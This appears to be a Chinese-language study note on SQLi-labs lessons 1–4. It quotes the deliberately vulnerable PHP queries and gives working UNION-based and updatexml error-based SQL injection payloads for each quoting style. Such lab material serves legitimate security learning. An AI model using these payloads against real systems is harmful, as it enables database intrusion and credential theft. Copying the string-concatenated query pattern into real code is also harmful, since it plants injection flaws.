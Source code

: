 # lesson1-lesson4

## ​lesson1



> String - single quotes



* **source**： $\_GET\['id'\]

```php
if(isset($_GET['id']))
$id=$_GET['id'];
```



* **sink**：select语句，where条件
  * 闭合形式：单引号

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```



* **output**:

```php
	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```

* union注入:  通过`$row`

  * 2，3点可控:  `index.php?id=0' union select 1,user(),3 --+`

* 报错注入： 通过 `print_r(mysql_error())`

  * xpath:  `index.php?id=1' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

* 盲注：
  * 时间
  * boolean

## lesson 2

> Intiger

* source: 同lesson1
* sink

```php
// connectivity 
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

整型注入探测可以使用减法计算\(加法url编码会被识别成空格\)，`index.php?id=2-1`

* output: 



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0 union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：
    * 时间
    * boolean

## lesson 3

> String-Single quotes with twist

* sink:

```php
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

有小括号的情况下，单纯的单引号闭合会报错的。要把括号也闭合掉才能合法加上子句。

* output:



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0') union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1') and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：

    * 时间
    * boolean

## lesson 4

> String-Double Quotes

* sink:

```php
$id = '"' . $id . '"';
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

双引号和单引号是不同的双引号包裹的字符串是会解析变量的内容然后替换\(把变量名看做占位符\)。因此这里的$sql里的 \`id=\($id\)\` $id会被解析成第一句表达式的赋值内容，即在sql层面的双音号包囊。

* output:



  * union注入:  通过`$row`

    * 2，3点可控:  `index.php?id=0") union select 1,user(),3 --+`

  * 报错注入： 通过 `print_r(mysql_error())`

    * xpath:  `index.php?id=1") and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+`

  * 盲注：
    * 时间
    * boolean



